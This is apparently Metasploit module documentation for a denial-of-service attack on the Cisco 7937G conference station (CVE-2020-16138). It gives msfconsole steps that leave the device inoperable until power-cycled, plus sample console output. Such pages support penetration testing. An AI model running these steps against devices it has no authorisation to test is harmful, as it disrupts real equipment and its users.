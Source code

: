 ## Vulnerable Application

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable SSH Access on the device.
  3. It has been observed that based on the firmware available from Cisco, all version are likely vulnerable.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/dos/cisco/CVE-2020-16138`
  3. Do: `set RHOST 192.168.1.10`
  4. Do: `run`
  5. The conference station should now be inoperable until it is power cycled

## Options

  1. rhost (required) - Target addres
  2. timeout (not required) - Timeout in seconds to wait before aborting

## Scenarios

#### Successful Scenario:
```
[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - DoS non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already DoS'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```
